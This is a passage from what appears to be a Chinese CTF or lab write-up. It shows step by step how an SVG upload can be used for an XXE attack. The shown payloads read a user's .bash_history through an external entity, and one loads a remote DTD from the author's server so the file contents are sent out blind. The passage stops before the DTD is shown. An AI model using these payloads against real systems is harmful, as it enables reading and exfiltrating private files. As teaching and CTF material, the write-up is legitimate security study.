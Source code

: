  

#### 利用SVG进行XXE攻击

我从网上搜索了一个SVG图片的源码，改装了一下，在VPS上面命名为 `1.svg` ：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fortiguard [ 
<!ENTITY lab "HELLO">
]>
<svg xmlns="http://www.w3.org/2000/svg" height="200" width="200">
  <text y="20" font-size="20">&lab;</text>	
</svg>
```

提交地址，我们发现我们的实体已经起作用了（这里只是因为挡住了，但是F12可以看到）

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171246.png)

那么大致就能实锤是XXE；

尝试直接读取文件：

1.svg

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fortiguard [ 
<!ENTITY lab SYSTEM "file:///home/r1ck/.bash_history">
]>
<svg xmlns="http://www.w3.org/2000/svg" height="200" width="200">
  <text y="20" font-size="20">&lab;</text>
</svg>
```

当然不可能这么简单，页面虽然正常返回信息，但是我们并不能直接读到我们想要的东西；

无回显，但是又是XXE，我们又自然地想到了XXE盲打，也就是通过加载外部一个dtd文件，然后把读取结果以HTTP请求的方式发送到自己的VPS。

构造 `entity.svg` :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE fortiguard [ 
<!ENTITY lab SYSTEM "file:///home/r1ck/.bash_history">
<!ENTITY % file SYSTEM "file:///home/r1ck/.bash_history">
<!ENTITY % dtd SYSTEM "http://IP:端口/1.dtd">
%dtd;
%send;
]>
<svg xmlns="http://www.w3.org/2000/svg" height="200" width="200">
        <text y="20" font-size="20">&lab;</text>
</svg>
```

构造 `1.dtd` ：
